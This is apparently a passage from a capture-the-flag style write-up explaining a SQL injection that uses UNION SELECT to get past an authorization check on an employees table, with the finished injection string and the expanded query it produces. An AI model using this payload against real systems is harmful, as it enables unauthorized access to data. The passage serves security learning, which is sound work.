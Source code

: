 We need a [UNION](https://www.w3schools.com/sql/sql_union.asp) SELECT:

> The UNION operator is used to combine the result-set of two or more SELECT statements.
> Each SELECT statement within UNION must have the same number of columns
> The columns must also have similar data types
> The columns in each SELECT statement must also be in the same order

Our select will be something like:
```
SELECT              <- select the same columns of the first select
  first_name,       
  last_name,
  enabled           
FROM
  employees
WHERE
  authorized = 1    <- we need an auhtorized guy
  AND enabled = 1   <- and he must be enabled
```

We need to assemble the injection considering all of this:
- we need to match and close the single quotes
- we need to be sure that the first select returns nothing
- we need to correctly use UNION

Use a [SQL validator](https://www.eversql.com/sql-syntax-check-validator/) to be sure of the result, this is the injection string:

```
' UNION SELECT first_name,last_name,enabled from employees where authorized = 1 and enabled = '1
```

The first single quote of the injection keeps us sure to "void" the original select by setting the WHERE clause to `AND uid = ''`.

The last single quote will match the closing single quote of the original SQL, enclosing the '1' of our `and enabled` clause.   

The resulting query is valid and seems to fit our purpose:

```
SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '' UNION SELECT first_name,last_name,enabled from employees where authorized = 1 and enabled = '1' LIMIT 1

Expanded:

SELECT
  first_name,
  last_name,
  enabled
FROM
  employees
WHERE
  authorized = 1
  AND uid = ''
UNION
SELECT
  first_name,
  last_name,
  enabled
from
  employees
where
  authorized = 1
  and enabled = '1'
LIMIT
  1
```
